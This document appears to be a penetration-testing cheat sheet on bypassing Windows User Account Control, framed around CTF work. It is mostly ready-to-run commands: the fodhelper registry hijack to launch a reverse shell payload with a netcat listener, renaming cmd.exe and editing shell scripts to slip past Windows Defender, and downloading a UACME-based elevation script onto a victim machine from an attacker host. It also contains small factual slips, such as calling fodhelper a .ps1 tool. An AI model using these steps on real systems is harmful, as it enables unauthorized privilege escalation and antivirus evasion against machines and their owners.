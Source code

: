 # Intro
## Test if a UAC Bypass will be Needed
- To start off, first list your groups and check if you're in the Local Administrators group:

```
net user {your user name}
```

- If you're part of the Local Administrators group, try to do some Administrative tasks, like creating a new user:

```
net user dave2 dave2 /add
```

- If the user was created successfully, you should not need to do a UAC Bypass. If you are faced with the message "Access is denied", you will need to do a UAC Bypass.
- You can also confirm by checking your integrity level in the current CMD session:

```
whoami /groups
```

- All the way at the bottom of the output, it will either say "Mandatory Label\\Medium Mandatory Level" or "Mandatory Label\\High Mandatory Level". 
- If your integrity level is "Medium", you will need to do a UAC Bypass.

# Using Fodhelper.ps1
## Disabled Windows Defender
- Windows 10 introduced a new tool called `fodhelper.ps1` which exists in C:\\Windows\\System32. We can abuse this tool for UAC Bypassing. 
- First, we need to make sure we're in Powershell. Simply type `powershell` in the command prompt if you're not already in a Powershell session:

```
powershell
```

- Next, we'll need to create a Registry structure to setup for the UAC Bypass. First, we create a new Item:

```
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
```

- Then, we add a new property to the item:

```
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
```

- Now we set the value of the property to the program we want to execute. This can be a reverse shell script generated by `msfvenom`, a Powershell Base-64 encoded payload, or something else:

```
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "{Path\To\File or payload itself}" -Force
```

- Before executing the payload, make sure you have a listener on Kali to catch the reverse shell connection:

> [!important]
> The listener may need to be on another port if it interferes with the currently existing reverse shell connection.

```
┌──(kali㉿kali)-[~/CTF]
└─$ nc -nvlp 443
```

- And finally, we execute the bypass:

```
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

- Now let's verify the integrity level:

```
whoami /groups
```

- The integrity level should not be set to "High".
- To clean up, let's delete the Registry structure we created:

```
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```

- That's it! You should now have a successful UAC Bypass.
## Enabled Windows Defender
- If Windows Defender is enabled with all defensive settings turned on, the third Registry structure command (`Set-ItemProperty`) will most likely get detected and blocked. To mitigate this, you need to look at the program passed to `-Value`.
- If you are simply passing `cmd.exe` to the parameter, a very easy way to bypass the defenses is by copying `cmd.exe` to a new location with a new name:

```
copy C:\Windows\System32\cmd.exe C:\Users\Public\lolgetrekt.exe
```

- Now, simply pass this new path to the command:

```
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "C:\Users\Public\lolgetrekt.exe" -Force
```

--- 

- If you're instead using a reverse shell script that's getting detected, check it's code to see if it's trying to execute `cmd.exe` or `powershell.exe`. If so, simply apply the same logic and modify the code to execute the program at a new location with a new name.
- Take the following example script:

```
...
blahblah(cmd.exe)
...
```

- We could modify this script to execute a copy of `cmd.exe` that we renamed instead of executing the orignal `cmd.exe` itself:

```
...
blahblah("C:\Users\Public\lolgetrekt.exe")
...
```

- This should be able to slip by Windows Defender without an issue. 

# Using UACME Binaries
- A developer has made some binaries of the UACME Bypass tool called [Bypass-UAC](https://github.com/ScriptKiddieTutorials/Bypass-UAC) for easy download and use. 
- First, let's download it and set it up:

```
┌──(kali㉿kali)-[~/CTF]
└─$ cd /opt

┌──(kali㉿kali)-[/opt]
└─$ sudo mkdir UACBypass; cd UACBypass

┌──(kali㉿kali)-[/opt]
└─$ sudo git clone https://github.com/ScriptKiddieTutorials/Bypass-UAC.git; sudo mv Bypass-UAC/powershell/elev.ps1 elev.ps1; sudo mv Bypass-UAC/batch/elev.bat elev.bat; sudo mv Bypass-UAC/python/elev.py elev.py; sudo rm -rf Bypass-UAC

┌──(kali㉿kali)-[/opt]
└─$ cd ~/CTF
```

- Now that it's setup, let's use it. Simply download it from the victim machine (make sure you're in Powershell):

```
iwr -uri http://{ip}/elev.ps1 -Outfile lolgetrekt.ps1
```

- And finally, run it:

```
.\elev.ps1
```

